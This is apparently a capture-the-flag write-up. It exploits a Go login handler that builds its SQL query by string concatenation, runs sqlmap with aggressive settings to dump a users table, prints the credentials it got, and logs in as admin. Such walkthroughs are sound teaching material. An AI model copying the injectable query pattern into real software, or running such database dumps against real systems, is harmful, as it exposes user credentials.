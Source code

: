 
# Description

```
Another one ? What could this be about ? Please break into it !

Intelligent bruteforcing (your own script) is recommended. The flag follows the format: 4T${<hex_key>}. The flag for this challenge will be annotated P6.
```

# Provided file

`login.go`
```go
package web

import (
	"fil-rouge/internal/db"
	"net/http"

	"github.com/labstack/echo/v4"
)

type LoginRequest struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func Login(s *Server) func(c echo.Context) error {
	return func(c echo.Context) error {
		var req LoginRequest
		if err := c.Bind(&req); err != nil {
			return err
		}

		// Get the user from database
		var user db.User
		db.DB.QueryRow("SELECT * FROM users WHERE login = '"+req.Username+"' AND password = '"+req.Password+"'").Scan(&user.ID, &user.Login, &user.IsAdmin, &user.Password)

		return c.JSON(http.StatusServiceUnavailable, map[string]interface{}{
			"status":  "error",
			"message": "I could contact the database but the service is down, come back later",
		})
	}
}
```

# Information from step 5

- `dump` file contains a memory dump

# Write Up

Back to my beloved `string` command, I ran

```bash
strings dump | grep 'hackcorp.net'
```

And it prompted me with some new `hackcorp.net` subdomains, especially
- https://admin1-aez.hackcorp.net

![](../attachments/Pasted%20image%2020241111122046.png)

Reading the small lines, I saw that 
- `/db.sqlite` contained a previous database leakage which I downloaded.
- The API may not work correctly
- We can log in using `/USERNAME/PASSWORD`

`db.sqlite`
```bash
sqlite3 db.sqlite
```

```sql
sqlite> select sql from sqlite_master;
CREATE TABLE users (id integer not null primary key, login text, is_admin boolean, password text)
```

*Based on that we can see the database structure and extract some credentials (they were not working)*
```sql
sqlite> select * from users;
1|jd44|0|q1Ob8Lrt4yZdnzQ7hyLbK8UfhB8Cp7mN
2|Jack.fleuyr|0|6O4pa4uqTerQmOPxCQm1cCU3xxvJ5xtn
3|jane.doe|0|Me12952zHrNuBOeSCLvr8ZKD0pR6myf2
```

As we are provided with the `login.go` source code, we can see that the login form is vulnerable to a Blind Time Based SQL Injection. 
So I captured a request in BurpSuite and run sqlmap as an haxor monkey.

`req.txt`
```
POST /api/v1/login HTTP/2
Host: admin1-aez.hackcorp.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://admin1-aez.hackcorp.net/
Content-Type: application/json
Content-Length: 41
Origin: https://admin1-aez.hackcorp.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"*","password":"*"}
```

```bash
sqlmap -r req.txt --level 5 --risk 3 --batch --dbms=sqlite3 --random-agent --technique=BTU --dump -T users -C id,login,id_admin,password
```

After some time, the database was dumped

```sql
+------+--------------+----------+----------------------------------+
| id   | login        | is_admin | password                         |
+------+--------------+----------+----------------------------------+
| NULL | Jack.fleuyr  | 0        | 6O4pa4uqTerQmOPxCQm1cCU3xxvJ5xtn |
| NULL | theadmin0000 | 1        | e5kVZVjn6XVzYi122RdEF4Jsx1mPEKnL |
| NULL | jd44         | 0        | VFv2Qv9G0WuGFu0HTctBDnXLsJffmenB |
| NULL | Jack.fleuyr  | 0        | KE3gbRSnnxHgjmH1tcWYR3daptNw09ty |
| NULL | jane.doe     | 0        | heGS8Dcsvaht2gx3URFxUur3QDujCZCq |
| NULL | jd44         | 0        | xuMH5c0zxR1bjvikC3gD8pVMA0rOvfe0 |
| NULL | Jack.sdvz    | 0        | 6sJqUDj5Bbs8fXrJoPF8KjIaTtyE2i7N |
| NULL | jane.doe     | 0        | 5Aar3s6G78yfBXyQE10kquRORIS3aaan |
| NULL | owen.perkins | 0        | qB7BeivnTM9zMQcpFJAdpsuVoJJkny2  |
| NULL | agent.x      | 0        | 9d6QxAzQUexCJJs7CQtY5hsa4CgxbuU  |
+------+--------------+----------+----------------------------------+
```

Logging in with `theadmin000` worked
- https://admin1-aez.hackcorp.net/theadmin0000/e5kVZVjn6XVzYi122RdEF4Jsx1mPEKnL

![](../attachments/Pasted%20image%2020241111123137.png)

# Flag

`4T${83c2613a2df6abaceec3fa7f32ed63d9}`

# Next

- [4. The Alert](4.%20The%20Alert.md)
- [7. Final](7.%20Final.md)